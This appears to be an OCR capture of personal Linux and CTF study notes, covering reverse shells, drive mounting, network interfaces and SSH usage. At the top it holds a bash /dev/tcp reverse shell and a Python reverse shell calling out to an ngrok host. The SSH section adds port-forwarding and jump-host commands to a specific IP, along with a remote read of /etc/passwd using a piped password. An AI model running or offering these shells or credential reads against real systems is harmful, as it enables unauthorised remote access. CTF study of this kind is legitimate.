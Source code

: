 ```https://d00mfist1.gitbooks.io/ctf/content/basics_of_linux.html
                bash -c 'bash -i >& /dev/tcp/127.0.0.1/4444 0>&1'

        python=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("2.tcp.ngrok.io",14713));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'


        curl https://ipinfo.io/ip

        referal https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp

     MOUNTING AND UNMOUNTING DRIVES
     ------------------------------
        df -Th   = Checking where a device is mounted
        mount /dev/sda3 -o rw /mnt - Installing with read and write permissions
        mount -o remount,rw /mnt -Remounting the drive as rw
        umount /mnt = Unmounting where the drive is currently mounted


    INTERFACES
    ----------
        ifconfig wlan0 up 192.168.1.1 netmask 255.255.255.0
        route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1 wlan0













    
    INSTALLING SSH
    --------------
        Client
            - sudo apt-get install ssh
            - ssh user@ipaddress    #if running on port 22
            - ssh user@ipaddress port 555   #if it runs on a different port
            - ssh escape@68.183.92.119 -p 22 -L 8000:10.47.0.5:80 && curl 127.0.0.1:8000
			- ssh -J escape@68.183.92.119 -p 22 escape@10.47.0.2
			- sudo ssh escape@68.183.92.119 'ls -al'
			- sudo echo "escape" | ssh escape@68.183.92.119 "awk '//' /etc/passwd "
https://www.linuxquestions.org/questions/linux-newbie-8/passing-commands-through-an-ssh-shell-in-a-bash-script-817072/


        Server
            - sudo apt-get install openssh-server #installing ssh server
            - service ssh start # starting the ssh service
            - ssh localhost # Checking if ssh server is installed on the machine
            - Changing the default ssh port 
            - Change the file /etc/ssh/sshd_config
                #Find the line 'What ports, IPs and protocols' the line below it or if not check for #ports



```